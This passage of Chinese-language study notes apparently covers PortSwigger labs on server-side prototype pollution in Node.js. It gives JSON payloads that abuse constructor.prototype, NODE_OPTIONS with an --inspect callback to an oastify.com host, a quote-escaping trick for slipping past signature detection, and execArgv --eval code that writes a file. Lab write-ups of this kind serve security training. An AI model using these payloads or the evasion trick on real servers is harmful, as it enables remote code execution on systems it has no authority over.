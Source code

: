    双写

2. 使用 constructor 绕过过滤

   {
     "constructor": {
       "prototype": {
         "polluted": "yes"
       }
     }
   }

![image-20250725020304294](portswigger.assets/image-20250725020304294.png)

![image-20250725022114723](portswigger.assets/image-20250725022114723.png)

用constructor绕过



## 107.实验室：通过服务器端原型污染执行远程代码

1：

```json
"__proto__": {
    "shell": "node",  // 指定子进程使用node作为shell
    "NODE_OPTIONS": "--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```

`NODE_OPTIONS` 是一个环境变量，允许开发者为每个 Node 子进程设置默认的命令行参数。

`"shell": "node"`：确保使用 Node shell 运行命令（不是 `/bin/sh`）。

`"NODE_OPTIONS"`：传入了 `--inspect=...`，这个参数会让新建的 Node 子进程自动去连这个地址。

转义：假设安全工具在查 “`abc123`” 这个特征：

- 你直接发送`abc123`，会被拦截。
- 你发送`ab\"c1\"23`，安全工具看到的是`ab"c1"23`，无法匹配`abc123`，于是放行。
- 目标系统会自动去掉转义，得到`abc123`，正常执行功能。

转义在这里就像给特征字符串 “加了干扰项”，让检测器 “认不出”，但目标能 “看懂”。

2：

在 Node.js 中，`child_process.fork()` 用于**创建一个子进程来执行新的 Node.js 脚本**。它接受一些参数，其中包括一个 `options` 对象。

这个 `options` 对象有一个重要字段：

- `execArgv`: 它是一个字符串数组，表示传给子进程的 Node.js 命令行参数，比如 `--inspect`、`--eval` 等。

```json
{
  "__proto__": {
    "execArgv": ["--eval=require('fs').writeFileSync('/tmp/pwned', 'hacked')"]
  }
}
```
